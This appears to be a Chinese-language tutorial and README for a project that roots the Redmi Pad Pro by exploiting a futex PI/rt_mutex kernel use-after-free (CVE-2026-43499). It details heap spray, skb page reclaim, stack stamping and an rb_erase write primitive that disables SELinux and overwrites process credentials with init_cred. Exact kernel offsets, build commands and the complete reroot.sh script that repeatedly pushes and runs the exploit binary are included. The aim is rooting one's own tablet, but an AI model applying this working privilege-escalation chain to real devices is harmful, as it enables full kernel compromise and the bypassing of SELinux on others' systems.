


# Redmi Pad Pro 内核 Root 完整学习教程

> 从零理解并复现 dizi（Redmi Pad Pro / POCO Pad，内核
> `5.10.236-android12-9-00003-gfb24cf99ad97-ab14313284`）的 Root 全过程。
> 不需要任何内核漏洞利用基础，按章节顺序读即可。

## 工作原理总览

```mermaid
flowchart TD
    subgraph 准备["准备阶段（电脑侧）"]
        A["build.sh 编译 exploit<br/>(NDK 交叉编译 arm64)"] --> B["adb 推送 ghostlock 二进制<br/>+ profile.bin 到平板"]
    end

    subgraph W1["W1：关闭 SELinux"]
        C["fork 大量子进程喷 mm_struct<br/>占满目标物理页所在 slab"] --> D["释放目标页 → unix socket<br/>sendmsg skb 数据精确回收该页<br/>(payload 页 = 伪造锁/任务)"]
        D --> E["pselect6 在 waiter 线程内核栈<br/>覆写已释放的 rt_mutex_waiter"]
        E --> F["sched_setattr 触发 PI 链调整<br/>rb_erase 重链接 = 受控内核写"]
        F --> G["selinux_enforcing := 0<br/>(SELinux 进入 Permissive)"]
    end

    subgraph W2["W2：覆写凭据（新进程，干净堆）"]
        H["fork victim 子进程<br/>perf_event 泄漏其 task_struct 地址"] --> I["同样的页回收 + 栈覆写 + PI 链"]
        I --> J["child-&gt;cred := init_cred<br/>(uid/gid/能力 = 0/全套)"]
        J --> K["fast repair：修复 init_cred+8<br/>副写损伤（5.x 必需）"]
        K --> L["child 管道应答 uid=0<br/>= Root 验证通过"]
    end

    subgraph 落地["Root 落地"]
        M["root 脚本以 uid=0 运行<br/>修复 SELinux policy 标志位"] --> N["从 KernelSU 管理器 APK<br/>提取 ksud"]
        N --> O["ksud late-load<br/>kernelsu.ko 内核模块"]
        O --> P["KernelSU 激活（越狱模式）<br/>SELinux 恢复 Enforcing"]
    end

    B --> C
    G -->|"进程退出释放现场<br/>(两段式，避免脏堆)"| H
    L --> M
    P --> Q["/data/adb 持久保存模块与授权<br/>重启后重跑 reroot.sh 即恢复"]

    style W1 fill:#fff4e0
    style W2 fill:#e0f0ff
    style 落地 fill:#e8ffe0
```



---

## 目录

- [第一章 背景知识速成](#第一章-背景知识速成)
- [第二章 漏洞原理：CVE-2026-43499](#第二章-漏洞原理cve-2026-43499)
- [第三章 从漏洞到任意内核写](#第三章-从漏洞到任意内核写)
- [第四章 dizi 适配的五个关键参数](#第四章-dizi-适配的五个关键参数)
- [第五章 完整复现教程](#第五章-完整复现教程)
- [第六章 Root 脚本全文与逐段讲解](#第六章-root-脚本全文与逐段讲解)
- [第七章 排障与 FAQ](#第七章-排障与-faq)
- [附录](#附录)

---

## 第一章 背景知识速成

### 1.1 内核漏洞利用在做什么

应用程序运行在「用户态」，权限受限；内核运行在「内核态」，掌握一切。
**提权（Root）= 让内核承认我们的进程是 root（uid=0）**。

每个进程在内核里都有一个 `task_struct`（任务档案），其中 `cred` 指针指向
「凭据」结构（uid、gid、capabilities 等）。`getuid()` 就是读
`current->cred->uid`。**如果能把这个指针改成指向 `init_cred`（内核初始
凭据，uid=0、全套能力），进程立刻变成 root**——这就是本方案的 W2。

但 SELinux 会拦截提权后的敏感操作，所以先要把 SELinux 打成
Permissive（只记录不拦截）——这是 W1：把内核变量 `selinux_enforcing`
改写为 0。

### 1.2 futex 与 PI（优先级继承）

futex 是 Linux 的线程锁原语。带 PI 的 futex（`FUTEX_LOCK_PI`）用于解决
优先级反转：低优先级线程持有锁、高优先级线程等待时，内核会**临时提升**
持锁线程的优先级。

内核里负责这件事的是 `rt_mutex`（实时互斥锁）。等待锁的线程会挂一个
`rt_mutex_waiter` 结构到锁的红黑树（rb-tree）里，按优先级排序。调整
优先级时，内核沿「等待链」逐级传播（`rt_mutex_adjust_prio_chain`），
过程中会对红黑树做插入/删除（`rb_insert_color`/`rb_erase`）。

### 1.3 内核堆与页回收

内核对象（如 `task_struct`、`mm_struct`）从 slab/slub 分配器里分配。
一个物理页（4KB 或更大块）被切成若干相同大小的槽位。对象释放后槽位
（或整页）进入空闲链表。

**堆喷（heap spray）**：短时间大量分配同类对象，把空闲槽位占成我们想要的
布局。**页回收（page reclaim）**：目标对象释放后，立刻用携带我们数据的
别的内核对象（本方案用 unix socket 的发包缓冲 skb）去「接住」那块刚释放
的物理页——之后内核再按原类型读这页，读到的就是我们的数据。这是漏洞
利用的核心手法，也是本方案中**唯一带概率的环节**（回收可能接歪，约
1/3~1/2 命中率）。

### 1.4 内核栈复用

每个线程在内核里有一小块内核栈（16KB），系统调用深、中断来时栈帧层层
叠放。一个线程在 `futex_wait_requeue_pi` 里睡着时，它的 waiter 结构就在
内核栈上。漏洞让 waiter 变成悬空指针（指向的栈帧已逻辑释放）。之后如果
同一线程再执行一个**会在内核栈上放用户数据的系统调用**（`pselect6` 会把
fd_set 位图拷贝到内核栈），新栈帧恰好覆盖旧 waiter 的内存——
**我们就能往 waiter 结构里写字节**。这叫做栈戳记（stack stamping）。

---

## 第二章 漏洞原理：CVE-2026-43499

### 2.1 漏洞本体

2011 年引入、2026 年修复（存在约 15 年），影响 `2.6.39` ~ `7.1-rc1` 所有
开启 `CONFIG_FUTEX_PI` 的内核。上游修复 commit：`3bfdc63936dd`
（"rtmutex: Use waiter::task instead of current in remove_waiter()"）。

`rt_mutex_start_proxy_lock()` 的回滚路径（由 `futex_requeue()` 触发）里，
`remove_waiter()` **错误地对 `current`（当前线程）而不是 `waiter->task`
（ waiter 所属线程）操作**：

```c
// 有漏洞的代码（5.10 语义示意）
static void remove_waiter(struct rt_mutex_base *lock, struct rt_mutex_waiter *waiter)
{
    raw_spin_lock_irq(&current->pi_lock);      // ← 错！应为 waiter->task->pi_lock
    rt_mutex_dequeue(lock, waiter);            // 把 waiter 从树里摘除
    current->pi_blocked_on = NULL;             // ← 错！清的是当前线程
    raw_spin_unlock_irq(&current->pi_lock);
    ...
}
```

后果：waiter 线程的 `pi_blocked_on` **没有被清**（悬空指针），且摘除操作
没持正确的锁。waiter 线程随后醒来返回用户态，它内核栈上的 waiter 结构
逻辑上已释放，但 PI 链里还挂着它的引用——**栈上的 UAF**。

### 2.2 触发时序



**这个漏洞的妙处**：EDEADLK 回滚发生后**没有时间压力**——waiter 线程可以
一直睡着，我们想什么时候 stamp、什么时候触发 walk 都行。难点只剩两个：
把 waiter 内容写对（栈戳记），以及把 payload 页准备对（堆回收）。

---

## 第三章 从漏洞到任意内核写

### 3.1 总链路



一次成功的写入需要三件事同时成立：

1. **payload 页回收命中**：被释放的 mm_struct 所在页被我们的 skb 数据
   精确接住（页内偏移必须对齐——dizi 是 4KB 头 + order-3 整页 frag，
   数据在页偏移 0，所以 `skb_frag_bias = 0x180`）；
2. **栈戳记命中**：pselect6 的 fd_set 栈帧精确覆盖 waiter（dizi 无
   `RANDOMIZE_KSTACK_OFFSET`——5.13 才引入——所以栈几何是确定的，
   `waiter_shift = -2` 永久成立）；
3. **walk 安全走完**：伪造的 fake_lock/fake_task 让
   `rt_mutex_adjust_prio_chain` 一路走到 erase 我们的节点。

### 3.2 写原语的精确语义（5.10 select 路由）

伪造 waiter 的红黑树节点字段为 `{pc = 写入值, right = 0, left = 目标地址}`，
节点标记为红色（不做颜色修正）。内核 `rb_erase` 该节点时：

- **主写**：`rb_set_parent_color(child=target, parent=pc&~3, color)`
  → `*(target) = pc | color`，pc 低 2 位为 0 → 写值精确；
- **副写**：`__rb_change_child` 把子节点地址写进父槽
  → `*(pc+8) = target`。

W2 时 pc = `init_cred` 别名地址，所以副写会把 child 的 cred 字段地址写进
`init_cred+8`（gid 字段）——**这就是 5.x 上必须 fast repair 的原因**：
W2 主写成功后立刻再发一发修复写，把 `init_cred+8` 清零。本项目的
`w2_fast_repair` 就是为此从 multicast 路由移植到 select 路由的
（`src/core/route/select_stack_route.cpp`，仅 `kernel_major==5` 时激活）。

### 3.3 W1/W2/W3 三阶段

| 阶段 | 目标 | 写入 | 验证 |
|---|---|---|---|
| W1 | `selinux_enforcing` | 0 | 读 `/sys/fs/selinux/enforce` |
| W2 | victim 子进程 `task->cred` | `init_cred` 别名 | 管道问 child `getuid()`，应答 0 |
| W3 | victim 的 seccomp | 清 TIF_SECCOMP + mode | fork 探针（shell 域无 seccomp，跳过） |

W3 的叶子方向探测还有一段插曲：5.10 上 leaf 写入的 erase 分支与 6.x 不同，
本项目修复了 leaf 盖字（`{fake_parent, 0, 0}`，对齐编码器契约）。

### 3.4 两段式运行（为什么分两个进程）

W1 成功后同一进程继续做 W2 时，内核堆已被几千次 fork/spray 搅动，W2 回收
命中率骤降。所以项目加了 `--stop-after-w1`：W1 成功后进程干净退出（堆状态
随进程释放），再跑一次新进程——W1 自动跳过（已 permissive），W2 在干净堆里
进行。SELinux permissive 状态跨进程保持（直到重启）。

### 3.5 一个隐蔽的 fd 抢占 bug（已修复）

select 路由用 fd_set 位图戳记 waiter 数据：位图的每个 bit 对应一个 fd 号，
路由对置位 fd 做 `dup2` 强占。W2 的 `pi_left = 目标地址`（内核指针），其低
字节 bit 6/7 恰好常是 victim 管道的 fd 号 6/7——**路由会把自己的通信管道
关掉**，child 读到 EOF 自杀，验证永远失败。修复：创建管道后立刻把 fd 抬到
戳记窗口（320）之上（`src/core/session/victim_process.cpp`）。

---

## 第四章 dizi 适配的五个关键参数

`profiles/5.10.236-....conf` 里每个值的来历（全部有真机或二进制证据）：

| 参数 | 值 | 来历 |
|---|---|---|
| `waiter_shift` | -2 | 两侧 syscall 链帧深字节级核算：futex 链（0x90+0x70+0x1a0，waiter@sp+0x90）vs pselect 链（0xa0+0x1c0，fd_set@sp+0x50），delta=0 → shift=-2 |
| `mm_struct_sz` | 960 | dizi SLUB 是 64B cacheline：DWARF sizeof=952 → 实测 `/proc/slabinfo` objsize=960、34 obj/slab |
| `skb_frag_bias` | 384 (0x180) | 5.10 的 unix sendmsg = 4KB kmalloc 头 + order-3 整页 frag，数据在页偏移 0；流字节 4096 即目标块开头 |
| `skb_reclaim_sends` | 16 | 真机门禁实测：4 太少盖不满，128 过压反而更糟 |
| 结构体偏移（task_struct/cred 等） | 见 conf | 同构建 GKI vmlinux 的 DWARF，再在 boot.img 上逐字节交叉验证（`init_task.comm="swapper"`、init_cred caps 段等） |

另外还有 `kernel_phys_load = 0xa8000000`（UEFI 内存图）与
`kernel_phys_offset = null`（默认 0x80000000，与 root 后实测 `/proc/iomem`
的 System RAM 起始吻合）。

---

## 第五章 完整复现教程

### 5.1 环境准备（电脑侧）

macOS：

```bash
brew install --cask android-commandlinetools   # 含 adb
brew install android-platform-tools            # 若上一步没带
# NDK：用 Android Studio 的 SDK Manager 安装，或命令行：
sdkmanager "ndk;29.0.14206865"                  # 任一较新版本即可
```

Linux：装 `android-tools`（adb）+ 从
https://developer.android.com/ndk/downloads 下载 NDK 解压。

验证：

```bash
adb version            # 有输出即可
echo $ANDROID_NDK_HOME # 或让 build.sh 自动探测
```

### 5.2 设备准备（平板侧）

1. 设置 → 关于平板 → 连点「OS 版本」开开发者选项；
2. 开发者选项 → 开 **USB 调试**；
3. 确认内核版本：关于平板 → 内核版本必须是
   `5.10.236-android12-9-00003-gfb24cf99ad97-ab14313284`（不同版本不能用
   本 profile）；
4. 安装 KernelSU 管理器 APK（https://github.com/tiann/KernelSU/releases）。
   **这步必须做**——Root 脚本要从它的安装包里提取 ksud 来加载内核模块；
5. USB 连电脑，平板上允许调试授权。

### 5.3 构建

```bash
git clone https://github.com/d16ug-a1l/REDMI_Root
cd REDMI_Root
./build.sh
```

成功后会看到 `[+] 构建成功: build/native/ghostlock`。

### 5.4 执行 Root

```bash
tools/reroot.sh
```

接下来是全自动的，**过程中平板可能自动重启几次——这是正常的**（堆回收未
命中 → 内核 panic → 重启，脚本会等设备回来继续）。典型输出：

```
== 第 1 次: W1 (SELinux) 10:00:01
   W1 未命中（设备可能重启了，等待重连...）
== 第 2 次: W1 (SELinux) 10:02:40
   W1 成功 (permissive)
== ROOTED + KernelSU 已激活（第 2 次第 1 次尝试）
```

看到 `ROOTED` 即完成。实测耗时几分钟到二十几分钟不等。

### 5.5 验证

```bash
adb shell "su -c id"
# uid=0(root) gid=0(root) groups=0(root) context=u:r:ksu:s0
```

打开平板上的 KernelSU 管理器，应显示「工作中 [越狱模式]」。

### 5.6 之后每次重启

Root 是越狱模式（重启失效），但**模块和授权配置不会丢**。每次重启后只需：

```bash
tools/reroot.sh
```

建议安装的模块（可选）：NeoZygisk + Vector（Xposed 框架），在 KernelSU
管理器的模块页安装 zip 即可。

---

## 第六章 Root 脚本全文与逐段讲解

`tools/reroot.sh` 全文：

```bash
#!/bin/bash
# dizi 一键重 root：平板 USB 连接 Mac 后运行本脚本即可。
# 自动完成：W1 (SELinux permissive) → W2 (cred root) → KernelSU 模块重载。
# 之前的模块和授权配置会自动恢复。
# 过程中平板可能重启若干次（属正常，USB 会自动重连），看到 ROOTED 即成。
cd "$(dirname "$0")/.." || exit 1

BIN=build/native/ghostlock
PROFILE="profiles/5.10.236-android12-9-00003-gfb24cf99ad97-ab14313284.bin"

wait_device() {
    while true; do
        for s in $(adb devices 2>/dev/null | awk '$2=="offline" || /:/{print $1}'); do
            adb disconnect "$s" >/dev/null 2>&1
        done
        if adb get-state 2>/dev/null | grep -q device; then
            if [ "$(adb shell getprop sys.boot_completed 2>/dev/null | tr -d '\r')" = "1" ]; then
                return 0
            fi
        fi
        sleep 5
    done
}

push_all() {
    adb push "$BIN" /data/local/tmp/ghostlock >/dev/null 2>&1
    adb push "$PROFILE" /data/local/tmp/profile.bin >/dev/null 2>&1
    adb shell chmod 755 /data/local/tmp/ghostlock 2>/dev/null
}

ATTEMPT=0
while true; do
    ATTEMPT=$((ATTEMPT+1))
    wait_device

    # 已 root 则直接结束
    if adb shell "su -c id" 2>/dev/null | grep -q "uid=0"; then
        echo "== KernelSU 已激活，无需操作"
        exit 0
    fi

    ENF=$(adb shell "cat /sys/fs/selinux/enforce" 2>/dev/null | tr -d '\r')
    if [ "$ENF" != "0" ]; then
        # phase 1: W1 → permissive
        echo "== 第 $ATTEMPT 次: W1 (SELinux) $(date '+%H:%M:%S')"
        push_all
        adb shell "cd /data/local/tmp && ./ghostlock --load-prebuilt-profile /data/local/tmp/profile.bin --stop-after-w1" > /dev/null 2>&1
        ENF=$(adb shell "cat /sys/fs/selinux/enforce" 2>/dev/null | tr -d '\r')
        if [ "$ENF" != "0" ]; then
            echo "   W1 未命中（设备可能重启了，等待重连...）"
            sleep 3
            continue
        fi
        echo "   W1 成功 (permissive)"
    fi

    # phase 2: W2 → root → KernelSU 重载（permissive boot 内反复试）
    for i in $(seq 1 25); do
        wait_device
        ENF=$(adb shell "cat /sys/fs/selinux/enforce" 2>/dev/null | tr -d '\r')
        [ "$ENF" != "0" ] && break   # 重启了，回 phase 1
        push_all
        adb shell "cd /data/local/tmp && ./ghostlock --load-prebuilt-profile /data/local/tmp/profile.bin" > /dev/null 2>&1
        if adb shell "su -c id" 2>/dev/null | grep -q "uid=0"; then
            echo "== ROOTED + KernelSU 已激活（第 $ATTEMPT 次第 $i 次尝试）"
            exit 0
        fi
        sleep 2
    done
done
```

逐段讲解：

| 行 | 作用 |
|---|---|
| `wait_device` | 等平板在线且开机完成；顺手清理 offline 的 adb 端点（防多设备歧义卡死） |
| `push_all` | 把 exploit 二进制和 profile 推到 `/data/local/tmp`（每次推，保证新鲜） |
| `su -c id` 预检 | 已 root 就直接退出（脚本幂等，可随便重复跑） |
| 段 1 | 读 `/sys/fs/selinux/enforce`，非 0 则跑 `--stop-after-w1`（只做 W1 就退出）；W1 未命中会 panic 重启，`wait_device` 自动等回来 |
| 段 2 | permissive 状态下连跑完整 exploit 最多 25 次：W1 自动跳过 → W2 → root 脚本 → ksud 加载 KernelSU；静默 miss 零成本重试，只有 panic 才丢 permissive 回段 1 |

---

## 第七章 排障与 FAQ

**Q：一直 `W1 未命中` 转圈？**
正常概率事件，放着就行（命中率约 1/3~1/2，脚本无限重试）。超过 30 分钟
没成功，先 `Ctrl+C`，确认平板内核版本与 profile 完全一致，再重跑。

**Q：adb 显示多个设备/offline？**
脚本已自动清理 offline 端点。如果还卡，手动 `adb devices` 检查，
`adb disconnect <ip:端口>` 清掉残留。

**Q：root 成功后平板变卡/某 App 崩？**
罕见。重启平板即回到完全未 root 的干净状态（不刷写任何分区）。

**Q：想彻底移除？**
KernelSU 管理器 → 卸载/移除模块；重启；删除 `/data/adb`（可选）。
没有任何分区被修改，boot 镜像原样。

**Q：能用于别的机型吗？**
不能直接通用——profile 是按内核精确版本匹配的。其他机型需要用上游
ghostlock-app 的提取器重新生成 profile 并真机验证（过程见
`docs/adaptation-plan.md`，那就是本方案的完整适配实录）。

**Q：会损坏保修/触发 Knox 类熔断吗？**
不熔断（不解 BL、不刷分区）。但 MIUI 可能记录到设备异常重启日志。

---

## 附录

### 关键源码索引

| 文件 | 内容 |
|---|---|
| `src/core/main.cpp` | 入口（`--stop-after-w1`、`--probe-comm-write` 等开关） |
| `src/core/session/backend/cve_2026_43499_backend.cpp` | W1/W2/W3 阶段机、fast repair 调用点 |
| `src/core/route/select_stack_route.cpp` | select 路由：fd_set 戳记、5.x fast repair 钩子 |
| `src/core/race/threads.cpp` | owner/waiter/consumer 三线程竞态 |
| `src/core/support/util.cpp` | mm 喷 + skb 回收（`prepare_kernel_page`） |
| `src/core/session/victim_process.cpp` | victim 协议、fd 抬升修复 |
| `profiles/*.conf` | 全部几何/偏移参数及出处注释 |

### 参考资料

- 上游项目：https://github.com/YuKongA/ghostlock-app
- 漏洞修复 commit：`3bfdc63936dd4773109b7b8c280c0f3b5ae7d349`
  （torvalds/linux，"rtmutex: Use waiter::task instead of current in
  remove_waiter()"）
- 本机型门禁证据：`docs/device-gate-DIZI-01.md`
- 适配全程设计与决策记录：`docs/adaptation-plan.md`

### 法律与合规

使用本工具前必须阅读项目根目录的 [DISCLAIMER.md](../DISCLAIMER.md)。
仅限本人自有设备与授权场景。
